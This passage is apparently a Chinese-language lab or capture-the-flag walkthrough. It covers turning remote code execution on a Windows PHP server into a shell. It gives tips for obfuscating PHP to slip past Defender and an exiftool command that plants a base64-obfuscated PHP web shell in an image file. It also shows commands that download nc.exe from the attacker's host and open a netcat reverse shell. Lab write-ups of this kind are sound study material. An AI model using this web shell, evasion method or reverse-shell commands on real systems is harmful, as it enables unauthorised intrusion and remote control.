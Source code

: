 我们可以采取多种措施，包括但不限于：

- 切换漏洞利用的某些部分，使它们处于异常顺序
- 对所有字符串进行编码，使其无法识别
- 拆分代码的不同部分（例如shell_exec($_GET[...]))

在线php混淆工具：https://www.gaijin.at/en/tools/php-obfuscator

将shellcode做混淆后制作图片马

```bash
┌──(root🐦kali)-[/home/sugobet]
└─# exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" ./op.jpg.php
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/3a64e45b79054aba8411eb4b89afb7cb.png)

现在我们已经可以RCE了

### RCE到Reverse shell

我们有一个问题。与Linux中通常有很多方法可以获得反向shell不同，Windows中的选项数量要少得多，因为**Windows默认情况下往往不会安装许多脚本语言**。

所以我们有几种选择：

- Powershell往往是Windows反向shell的首选。不幸的是，Defender确切地知道PowerShell反向shell是什么样子的，所以我们必须做一些严重的混淆才能让它工作。
- PHP，我们知道目标已经安装了PHP解释器。Windows PHP反向shell往往不稳定，并且再次可能会触发Defender。
- 我们可以使用 msfvenom 生成一个可执行的反向 shell，然后使用 webshell 上传并激活它。

我们还可以直接上传[nc](https://github.com/int0x33/nc.exe/)

**Certutil是一个默认的Windows工具，用于（除其他外）下载CA证书。这也使其成为文件传输的理想选择，但 Defender 将其标记为恶意。**

rce执行：

	curl http://10.50.91.179:8000/nc.exe -o c:\windows\temp\nc-hackerM.exe

![在这里插入图片描述](https://img-blog.csdnimg.cn/63cc45aa4a4c4083a04e57c6c2a6c84b.png)

执行nc reverse shell

	powershell c:\windows\temp\nc-hackerM.exe 10.50.91.179 4321 -e cmd

![在这里插入图片描述](https://img-blog.csdnimg.cn/5ad2e4de578b47c9beffb63534d69b9e.png)

### 枚举

我们现在拥有低权限shell

那么接下来该做的应该是想办法进行权限提升

查看拥有的特权：

![在这里插入图片描述](https://img-blog.csdnimg.cn/55fee125038a4594989a537ce55acd47.png)

我们可以进行令牌模拟

**Windows 服务通常容易受到各种攻击，因此我们将从那里开始。一般来说，核心Windows服务不太可能受到任何攻击 - 用户安装的服务更有可能出现漏洞。**
